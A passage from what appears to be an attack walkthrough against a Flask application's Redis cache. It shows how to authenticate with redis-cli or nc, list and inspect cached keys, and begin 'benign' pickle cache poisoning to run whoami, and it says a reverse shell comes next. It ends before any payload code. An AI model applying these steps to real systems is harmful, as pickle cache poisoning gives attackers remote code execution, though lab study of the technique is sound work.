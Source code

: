 **Expected responses:**
```
127.0.0.1:6379> AUTH your_password
OK
127.0.0.1:6379> PING
PONG
```

```bash
# Method 2: Using nc (if redis-cli not available)
nc localhost 6379

# Type commands manually:
AUTH your_redis_password_here
PING
```

### 3. Explore Existing Cache Data

Without disrupting the application, examine what's cached:

```bash
# List all keys
KEYS *

# Example output:
# 1) "flask_cache_result_abc123"
# 2) "flask_cache_session_xyz789"

# Examine a key's type
TYPE flask_cache_result_abc123

# Get value (may be binary/pickled data)
GET flask_cache_result_abc123

# Check key expiration
TTL flask_cache_result_abc123
```

**Document the cache key format:**
```bash
# Note the pattern - typically:
# flask_cache_<endpoint>_<identifier>
# or
# cache:<function_name>:<args>
```

### Phase 2: Test Benign Cache Poisoning

Before deploying our reverse shell, test that cache poisoning works without disrupting the application.

### 4. Create a Benign Test Pickle Payload

Create a simple test to execute `whoami`:

